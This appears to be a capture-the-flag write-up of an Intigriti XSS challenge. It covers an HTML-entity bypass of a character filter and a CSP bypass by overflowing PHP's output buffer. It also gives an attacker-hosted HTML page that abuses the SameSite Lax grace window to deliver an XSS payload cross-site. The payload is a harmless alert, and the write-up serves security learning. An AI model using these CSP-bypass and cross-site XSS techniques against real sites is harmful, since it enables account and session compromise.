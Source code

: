 
```
$stringa='/[(\`\)]/';
$variabile=preg_replace($stringa,'NotAllowedCaracter',$YourPayload);
```
+ we are not allowed to use brackets nor backticks. However, we are able to bypass this by encoding these characters using HTML entities
+ payload: `<img src=x onerror=alert&lpar;1&rpar;>.`
+ next problem : csp
`content-security-policy: default-src 'none'; style-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; script-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; img-src 'self'`
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/262edd23-d537-431e-b890-99a250b258e5)
+ The policy looks mostly correct as we cannot inject arbitrary <script> tags since a valid nonce is required each time the page is requested. We are also unable to insert inline JavaScript events such as onload, onerror, etc. since there is a lack of unsafe-inline
+ Even though we can use base tag, the webpage is not importing any kinds of javascript files at all.
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/aec86427-37ca-4ba3-a17d-5134f17cb3f8)
+ token is set to a 64-character string, FirstText and Hashing are set based on our input. After testing around for abit, I found that:

token accepts any arbitrary string as long as it is exactly 64-characters long
PHPSESSID cookie has to be present and the value can be any string of at least 1-character long
+ The bug here is that the application’s response/output will not be sent first, but the header should. The body data request will be sent to the output buffer before the HTTP header since there’s no data returned before the header. This means the CSP inside the header will be ignored if we provide enough data more than the default PHP output_buffer size (4096 bytes), and sbox parameter is the perfect spot for the attacker to control to trigger the error.
+ Now we’ll try to populate the parameters with a junk buffer data so that the CSP header would be ignored.
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/52a2d66a-fd19-46b1-8cac-fe141dad140e)

+ The content-security-policy header is no longer returned in the response header for the second request. This means that our XSS payload would work!
+ The following should be hosted in a attacker controlled domain.
```
<html>
  <body>
	<script>
		function submit() {
			document.forms[0].submit();
		}
		
		function exploit() {
			var newTab = window.open("https://challenge-0322.intigriti.io/challenge/LoveSender.php", "_blank");
			setTimeout(submit, 5000);
		}
	</script>

	<button onclick='exploit()'>Click me</button>
    <form action="https://challenge-0322.intigriti.io/challenge/LoveReceiver.php" method="POST">
      <input type="hidden" name="token" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
      <input type="hidden" name="FirstText" value="&lt;img&#32;src&#61;&quot;happy&#46;gif&quot;&#32;onload&#61;alert&amp;lpar&#59;document&#46;domain&amp;rpar&#59;&gt;" />
      <input type="hidden" name="Hashing" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
    </form>
  </body>
</html>
```
+ This relies on user interaction as they would need to click on the “Click me” button first. By doing so, the JavaScript in this file would open a new tab to the https://challenge-0322.intigriti.io/challenge/LoveSender.php page (the landing page containing the form). This step is essential as visiting this page would grant the victim a valid PHPSESSID cookie, which is required by the LoveReceiver.php page (vulnerable page) before the XSS payload would even load.
+ Important: `Furthermore, the PHPSESSID cookie was set without the SameSite attribute. This means that modern browsers such as Chrome and FireFox would implement a 2-minute buffer window before setting this attribute as SameSite=Lax.`
+ Once a valid PHPSESSID cookie is obtained, we have 2 minutes before the SameSite=Lax setting kicks in, preventing cross-site POST requests from sending cookies. Now we have to quickly send our POST request to trigger the XSS payload. The HTML file above automatically sends this POST request after a 5-second delay (to ensure that the new cookie from the opened tab is processed). When the request is sent successfully, the XSS should trigger in the victim’s context.

Reference:
+ https://stackoverflow.com/questions/59990864/what-is-the-difference-between-samesite-lax-and-samesite-strict
+ https://infosecwriteups.com/the-buffer-curse-3591efb4a724
+ https://www.php.net/manual/en/function.header.php

